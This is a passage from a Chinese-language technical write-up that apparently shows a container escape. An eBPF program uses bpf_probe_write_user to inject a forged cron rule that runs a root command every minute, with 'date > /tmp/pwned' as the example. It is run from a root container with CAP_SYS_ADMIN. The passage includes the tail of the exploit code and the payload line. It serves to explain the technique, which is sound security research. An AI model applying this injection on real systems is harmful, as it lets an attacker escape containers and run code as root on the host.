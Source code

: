 14.      `{`
15.          `bpf_printk("PAYLOAD too long\n");`
16.  `​`
17.          `read_buf = 0;`
18.          `return;`
19.      `}`
20.  `​`
21.      `bpf_probe_write_user(read_buf, PAYLOAD, sizeof(PAYLOAD));`
22.      `read_buf = 0;`
23.  `}`

这里的 payload 就是任意的符合 cron 语法的规则，例如`* * * * * root /bin/bash -c 'date > /tmp/pwned' #`，由于 `vixie-cron`命令不支持多行，所以仅需在最后加个注释符 `#` 即可保证后面的命令被注释掉，时间选择每分钟都会触发，由于上面 `stat` 返回的是较小 `mtime` ，停止 eBPF 程序后也可以马上恢复成原来的 cron 规则。

编译后在拥有 `CAP_SYS_ADMIN`权限其他配置默认的 root 用户容器内运行一下，：

![](assets/1700701462-71ffc38cdeea38bcc6b7504665daeadd.jpeg)

同时运行 `journalctl -f -u cron` 观察一下 `cron` 输出的日志：

![](assets/1700701462-c38af0b3d93992f31ea037acd0aa3cb8.jpeg)
